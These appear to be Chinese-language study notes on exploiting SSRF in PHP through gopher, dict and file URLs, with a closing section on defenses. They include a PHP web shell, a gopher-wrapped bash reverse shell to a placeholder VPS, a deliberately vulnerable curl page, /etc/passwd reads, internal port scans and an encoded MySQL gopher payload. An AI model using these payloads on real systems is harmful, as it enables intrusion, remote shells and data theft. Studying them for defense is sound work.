



## 原理

SSRF漏洞，在拉取外部资源的时候没有检查URL，导致可以向内网发送请求

 

curl -v "ftp://ip:80"

端口存在连接会一直在连接，连接时间会很长。

	Connected to ip (ip) port 80 (#0)

端口不存在的连接会被立马刷新

	Failed connect to ip:21; Connection refused

http://www.sohu.com/a/300092789_609556

https://blog.chaitin.cn/gopher-attack-surfaces/

**https://www.cnblogs.com/Mikasa-Ackerman/p/11155779.html**

https://joychou.org/web/phpssrf.html

https://www.cnblogs.com/p0pl4r/p/10336501.html

https://blog.csdn.net/sojrs_sec/article/details/100999908

exp.php

	<?php system($_POST[e]);?> 

利用方式

	POST /exp.php HTTP/1.1
	Host: 127.0.0.1
	User-Agent: curl/7.43.0
	Accept: */*
	Content-Length: 47
	Content-Type: application/x-www-form-urlencoded
	
	e=bash -i >%26 /dev/tcp/xx.xxx.x.xx/2333 0>%261

构造 Gopher 协议的 URL：

	gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 47%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/vps/2333 0>%25261null

## gopher协议

gopher协议是一种信息查找系统，他将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。现在它基本过时，人们很少再使用它。虽然很古老但现在很多库还支持gopher 协议而且gopher 协议功能很强大。

**它可以实现多个数据包整合发送，然后gopher 服务器将多个数据包捆绑着发送到客户端，这就是它的菜单响应。比如使用一条gopher 协议的curl 命令就能操作mysql 数据库或完成对redis 的攻击等等。**
gopher 协议使用tcp 可靠连接。

它只支持文本，不支持图像

**https://yinwc.github.io/2018/07/31/Gopher/**

https://www.cnblogs.com/Konmu/p/12984891.html

https://www.cnblogs.com/zhangqianxi/p/13337622.html

## php 中的 ssrf

以下三个函数使用不当会造成SSRF漏洞

	file_get_contents()
	fsockopen()
	curl_exec()

构造一个存在ssrf漏洞的页面

	<?php
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $_GET['url']);
	#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
	curl_exec($ch);
	curl_close($ch);
	?>

查看 /etc/passwd

http://ip/ssrf.php?url=file:///etc/passwd

扫内网开放端口

http://ip/ssrf.php?url=dict://ip:22

加载远程图片 (本服务端代码未成功，显示的二进制)

**大部分 PHP 并不会开启 fopen 的 gopher wrapper**

file_get_contents 的 gopher 协议不能 URLencode

file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败

curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用

curl_exec() //默认不跟踪跳转，

file_get_contents() // file_get_contents支持php://input协议

### gopher 攻击mysql

查看php 支持的扩展：

	php -m

[php如何查看扩展是否开启](https://blog.csdn.net/weixin_34055787/article/details/93571824)

https://github.com/undefinedd/extract0r-

	gopher://foo@[cafebabe.cf]@yolo.com:3306/A%40%00%00%00O%B7%00%00%00%00%00%
	01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00root%0
	0%14A%81%96%94%08%BFFE%5C%1C%2A%A322%0F%94%02S%87%7Fmysql%00K%01%00%00%03select%
	20concat%28cast%280x504b03040a00000000000000000000000000e8030000e803000010000000
	746869735f69735f7468655f666c6167%20as%20binary%29%2C%20rpad%28%28select%20now%28
	%29%29%2C%201000%2C%20%27-%27%29%2C%20cast%280x504b01021e030a0000000000000000000
	0000000100000000000000000000000000000000000746869735f69735f7468655f666c6167504b0
	506000000000100010036000000640000000000%20as%20binary%29%29%00%00%00%00

## ssrf 解决方案

### 解决方案1

•        限制协议为HTTP、HTTPS

•        禁止30x跳转

•        设置URL白名单或者限制内网IP

### 解决方案2

1.解析目标URL，获取其Host

2.解析Host，获取Host指向的IP地址

3.检查IP地址是否为内网IP

4.请求URL

5.如果有跳转，拿出跳转URL，执行1

6.禁用不必要的协议  可以防止类似于file:///,gopher://,ftp:// 等引起的问题。

## 参考资料

[php，java， python中的ssrf ](https://www.t00ls.net/articles-41070.html)

[Gopher](https://www.kancloud.cn/a173512/php_note/1690690)